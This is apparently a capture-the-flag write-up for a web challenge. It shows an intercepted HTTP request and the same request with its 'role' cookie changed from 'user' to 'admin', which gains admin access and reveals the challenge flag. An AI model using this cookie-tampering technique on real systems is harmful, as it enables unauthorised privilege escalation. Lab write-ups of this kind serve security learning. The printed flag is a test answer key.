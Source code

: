 
Go the the web page, intercept the request, the request will look like this

```http
GET / HTTP/1.1

Host: 3.23.56.243:9002

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: role=user

Upgrade-Insecure-Requests: 1
```

Change the role value to admin and forward the request

```http
GET / HTTP/1.1

Host: 3.23.56.243:9002

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: role=admin

Upgrade-Insecure-Requests: 1
```

And we get the flag

Flag : texsaw{cR@zy_c00Ki3}

